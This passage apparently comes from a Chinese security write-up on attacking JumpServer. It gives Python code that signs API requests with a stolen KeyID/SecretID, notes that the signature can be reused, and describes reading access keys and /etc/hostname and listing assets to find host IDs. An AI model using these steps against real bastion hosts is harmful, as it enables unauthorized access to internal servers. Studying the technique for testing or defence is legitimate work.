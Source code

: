 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWV8qyMI74EoljlZJD0Gxic1LTUJsyLAec3ZiaaaT9ky5iaufg6CXYTR0Dby9u8XKCAHFtkIe6jHicoYCg/640?wx_fmt=png&from=appmsg "")  
  
看一下python示例，通过使用KeyID和SecretID对请求方法、URL、accept、date进行签名。  
```
import requests, datetime, json
from httpsig.requests_auth import HTTPSignatureAuth

def get_auth(KeyID, SecretID):
    signature_headers = ['(request-target)', 'accept', 'date']
    auth = HTTPSignatureAuth(key_id=KeyID, secret=SecretID, algorithm='hmac-sha256', headers=signature_headers)
    return auth

response = requests.get(url, auth=auth, headers=headers)

```  
  
也就是说，只要保持请求方法、URL、accept、date不变，签名是可以重用的，可以简单写个python脚本获取sign，将burp作为上级代理捕获数据包后再手动调试数据包  
```
JMS_URL = '' 
X_JMS_ORG = ''
KEY_ID = ''
SECRET_ID = ''
headers = {
        'Accept': 'application/json',
        'X-JMS-ORG': X_JMS_ORG,
        'Date': datetime.now(timezone.utc).strftime('%a, %d %b %Y %H:%M:%S GMT')
    }

def get_auth():
    signature_headers = ['(request-target)', 'accept', 'date']
    auth = HTTPSignatureAuth(key_id=KEY_ID, secret=SECRET_ID, algorithm='hmac-sha256', headers=signature_headers)
    return auth

def get_request(url):
    auth = get_auth()
    full_url = f"{JMS_URL}{url}"
    print(full_url)
    response = requests.get(full_url, auth=auth, headers=headers, verify=False)
    response = requests.post(full_url, auth=auth, headers=headers, data=None, verify=False)
    print(response.text)

```  
  
读取jumpserver  
的accesskey  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWV8qyMI74EoljlZJD0Gxic1LqGjIupKkKm4ZaQMCjQDXCBME0ziaYlkQ9HFRFRPXwfHLonBdCANPicJg/640?wx_fmt=png&from=appmsg "")  
  
获取主机列表，这里可以读取/etc/hostname  
确认jumpserver  
的主机名，找到对应的主机id  
```
GET /api/v1/assets/assets/?offset\=0&amp;limit\=15&amp;display\=1&amp;draw\=1

```  
  